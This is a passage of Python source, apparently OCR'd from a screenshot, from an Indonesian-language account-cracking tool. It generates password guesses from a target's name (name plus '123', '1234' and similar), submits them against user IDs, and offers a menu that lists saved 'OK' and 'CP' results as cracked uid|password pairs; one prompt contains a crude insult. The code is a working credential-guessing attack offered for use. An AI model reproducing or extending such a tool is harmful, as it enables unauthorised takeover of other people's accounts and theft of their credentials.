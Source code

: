                         else: 
                            pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]] 
                        kirim.submit(self.__metode__,url,uid,pwx) 
                    except:pass 
             hasil(ok,cp) 
              
 def result(): 
         print(f'[1]. Hasil OK Anda ') 
         print(f'[2]. Hasil CP Anda ') 
         print('[3]. Kembali        ') 
         kz = input(f'\n<\> Pilih : ') 
         if kz in ['2']: 
                 try:vin = os.listdir('CP') 
                 except FileNotFoundError: 
                         print('>> File Tidak Di Temukan ') 
                         time.sleep(3) 
                         file() 
                 if len(vin)==0: 
                         print('>> Anda Tidak Memiliki Hasil CP ') 
                         time.sleep(2) 
                         back() 
                 else: 
                         cih = 0 
                         lol = {} 
                         for isi in vin: 
                                 try:hem = open('CP/'+isi,'r').readlines() 
                                 except:continue 
                                 cih+=1 
                                 if cih<10: 
                                         nom = ''+str(cih) 
                                         lol.update({str(cih):str(isi)}) 
                                         lol.update({nom:str(isi)}) 
                                         print(f'>> %s. %s ( %s Idz )'%(nom,isi,len(hem))) 
                                 else: 
                                         lol.update({str(cih):str(isi)}) 
                                         print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]') 
                         geeh = input('\n>> Pilih : ') 
                         try:geh = lol[geeh] 
                         except KeyError: 
                                 print('>> Pilih Yang Bener Kontol ') 
                                 back() 
                         try:lin = open('CP/'+geh,'r').read().splitlines() 
                         except: 
                                 print('>> File Tidak Di Temukan ') 
                                 time.sleep(2) 
                                 back() 
                         nocp=0 
                         for cpku in range(len(lin)): 
                                 cpkuni=lin[nocp].split('|') 
                                 print(f'>> {cpkuni[0]}|{cpkuni[1]}') 
                                 nocp +=1 
                         print('') 
                         input(f'[ Klik Enter ]') 
                         file() 
         elif kz in ['1']: 
                 try:vin = os.listdir('OK') 
                 except FileNotFoundError: 
                         print('>> File Tidak Di Temukan ') 
                         time.sleep(2) 
                         back() 
                 if len(vin)==0: 
                         print('>> Anda Tidak Mempunyai File OK ') 
                         time.sleep(2) 
                         back() 